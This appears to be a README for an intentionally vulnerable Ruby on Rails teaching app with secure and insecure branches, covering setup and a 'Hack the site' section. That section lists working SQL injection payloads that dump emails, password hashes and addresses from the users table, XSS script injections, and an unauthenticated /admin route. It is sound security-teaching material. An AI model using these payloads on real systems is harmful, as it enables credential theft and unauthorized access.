 # Project Title

This is my Ruby On Rails Project This is the insecure code 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Downloads

The things you need before installing the software.

#### For Windows 
* Ruby Installer: https://rubyinstaller.org/ (The version i was using is 3.1.2)
* SQLite: https://www.sqlite.org/index.html (The version i was using is3.39.4)
#### For Mac and others)
please follow this guide: https://www.ruby-lang.org/en/downloads/

### Installation
When ruby is installed run these commands to run the application

Open up command terminal (cmd)
check the version of ruby and ruby gem by 

```
$gem -v
```
```
$ruby -v
```

Next install rails by using 

```
$gem install rails
```
When this is complete check the version of rails (im using rails 7.0.4.3)
gem install rails

```
$rails -v 
```
## Usage

To run the application simply download the github secure project and insecure project. 
Once downloaded redirect to the directory the project is saved in 
make sure you are in the application directory, Once in the directory run bundle install to install all the gems needed

```
$ bundle install
```
Once installed you can choose to run it on a localhost or through an ip
### Run localhost 

To run it on a localhost just type in the terminal 
```
$ rails server
```
This will start the Rails server, and you can access your application by opening a web browser and going to http://localhost:3000

### Run through local ipv4
Find your Ipv4 address
```
$ ip config
```
This will run it on port 3000 

```
$ rails s -b 0.0.0.0
```
In order to connect to the site use your ipv4 address and the port
Ip will look like 192.111.1.111:3000 This is a sample and fake ipv4 address and will be different for you 
You can access your application by opening a web browser and typing your ip along with the port

### Branches

* Secure
* Insecure

## Additional Documentation and Acknowledgments
if there are any issues with installations please follow the ruby on rails guide documentation
* https://www.ruby-lang.org/en/downloads/
* https://guides.rubyonrails.org/getting_started.html

# Hack the site 

## Info About Insecure and Secure App
Here I intentionally made the button look out dated to show a security flaws. This is the insecure site so it will look differnt than to the secure site where the layout and looks are being validated and are using proper buttons such as primary and secondary buttons. naming conventions have stayed the same to be able to compare between the code only difference is the body is called content on the insecure app while its called context on the secure one There are no authentication between sites like going to /admin on the url.

## SQL Inject the Search button using the commands!
This will display the email and password:
```
Cake') union select 1, email, encrypted_password, null, null, true from users --
```

This will display the email and address:
```
Cake') union select 1, email, address, null, null, true from users --
```
This will display the email, password and users that are Admin:
```
Cake') union select 1, email, encrypted_password, null, null, true from users where admin = true --
```
This will display private posts:
```
Cake' or 1=1)
```
## XSS the subscribe button in the Home page using the command!
This will inject an alert script:
```
<script>alert('XSS Attack')</script>
```
This will run a script to change the css properties (background color to red):
```
<script>function changeBackground(color) { document.body.style.background = color; } window.addEventListener("load",function() { changeBackground('red') });</script>
```
## Broken Access Control
Access the admin page by typing this at the end of the url
```
/admin
```
### sample Url
This is wht the url will look like when you type the /admin at the end of the url
```
192.111.1.111:3000/admin
```
```
http://localhost:3000/admin
```
